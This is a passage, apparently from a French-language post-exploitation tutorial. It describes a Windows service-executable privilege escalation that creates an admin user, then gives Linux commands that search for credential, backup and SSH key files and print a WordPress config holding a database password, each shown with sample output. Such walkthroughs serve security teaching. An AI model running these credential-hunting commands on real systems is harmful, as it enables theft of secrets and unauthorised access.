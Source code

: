 **Analyse :** Cette séquence de commandes exploite un service Windows vulnérable qui s'exécute avec des privilèges élevés et dont le fichier exécutable est modifiable par l'utilisateur actuel. L'attaquant remplace l'exécutable légitime par un code malveillant qui crée un nouvel utilisateur administrateur, puis tente de démarrer le service. Bien que le service échoue à démarrer correctement, le code malveillant a été exécuté avec des privilèges élevés, créant ainsi un nouvel utilisateur avec des droits d'administrateur.

#### 2. Extraction de données sensibles

**Commande pour rechercher des fichiers sensibles sur Linux :**
```bash
find / -type f -name "*.conf" -o -name "*.config" -o -name "*.ini" -o -name "*.txt" -o -name "*.sql" -o -name "*.bak" -o -name "*password*" -o -name "*credential*" 2>/dev/null | grep -v "/proc/" | grep -v "/sys/" | head -n 20
```

**Sortie typique :**
```
/etc/mysql/my.cnf
/etc/apache2/sites-available/default-ssl.conf
/etc/apache2/sites-available/000-default.conf
/etc/apache2/apache2.conf
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/var/www/html/config.php
/var/www/html/wp-config.php
/var/www/html/backup/db_backup.sql
/var/www/html/admin/credentials.txt
/home/john/.ssh/id_rsa
/home/john/.bash_history
/home/jane/.ssh/id_rsa
/home/jane/.bash_history
/opt/backup/credentials.ini
/root/.ssh/id_rsa
/root/.bash_history
/root/admin_notes.txt
/usr/local/etc/credentials.conf
/tmp/session_backup.txt
```

**Commande pour examiner un fichier de configuration sensible :**
```bash
cat /var/www/html/wp-config.php
```

**Sortie typique :**
```php
<?php
/**
 * The base configuration for WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'P@ssw0rd!2025' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
```
